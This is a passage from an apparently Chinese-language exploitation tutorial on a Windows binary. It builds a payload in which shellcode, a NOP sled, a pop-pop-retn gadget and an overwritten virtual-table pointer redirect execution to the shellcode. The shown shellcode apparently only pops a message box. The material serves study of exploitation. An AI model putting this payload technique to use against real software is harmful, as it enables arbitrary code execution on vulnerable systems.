 ![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x007-008.png)

copy的数据源从0x0012fe9c开始, copy的数据从0x00403048开始(两份payload一致)

组织payload, 将虚表指针覆盖成0x0012fe9c, 即shellcode的起始地址(防着跳板)
```
"\x04\x2b\x99\x7C"		# pop pop retn
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x30\x75\x6e\x67\x68\x77\x6f\x6f\x79\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x9c\xfe\x12\x00"		# "\x48\x30\x40\x00"也可以, 两份数据一样的
```

再次附加调试, 现在数据区布局如下
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x007-009.png)

